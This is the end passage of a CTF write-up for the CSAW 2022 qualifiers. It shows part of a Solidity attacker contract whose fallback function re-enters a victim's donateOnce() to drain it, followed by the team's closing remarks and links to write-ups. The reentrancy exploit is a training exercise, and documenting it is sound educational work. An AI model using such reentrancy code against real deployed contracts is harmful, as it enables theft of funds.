 ```js

    fallback()external payable {
        uint my_balance= victimContract.getBalance();
        if (my_balance<=20)
            victimContract.donateOnce();

    }

 function getBalance() public view returns (uint256) {
        return victimContract.getBalance();
    }

    function getFlag(bytes32 _token) public {
        victimContract.getFlag(_token);
    }
}
```

## Final words

I want to congratulate the organizers for their huge efforts and these great tasks.
Kudos to all my teammates for their perseverance and hard work during the competition. We successfully made it to the finals by achieving the first place in MENA !! Many words but not enough of them, all the efforts put to get such results, but most importantly **CSAW 2K22 finals here we come**.


## Links
- [Github Repo](https://github.com/yassinebk/ctf-writeups/blob/main/csaw-2k22-qual/README.md)
- [N0s Writeup](https://blog.anas-cherni.me/2022/09/14/csaw2k22/)
- [Raf² & Adam](https://4n6nk8s.tech/2022/09/12/Writeups/csaw2022/?fbclid=IwAR2lkfD8gD6AggLv-c1P_tFP1PdK607fKFf4Rg5Ozi597A6lHdKlfM80wsw)
- [Ironbyte](https://l.facebook.com/l.php?u=https%3A%2F%2Fironbyte.me%2Fezmaze%2F%3Ffbclid%3DIwAR1UWnHRheApKCK7MtfcN_6lOBeSLEecT5NLBSETDwITNu-6bNPCnw497uA&h=AT14Q4UItbyzfDyj05vOBfFIIKwME3bO40gyNJOqD3UR4a2bex6wsRTEk26B9c6GQdjVbxako_OZtruE3LkafzkaiL_aXfDFmo0W0RiOwke5hiQxeQMt1sFjz7zYx2nkUAy8Gw)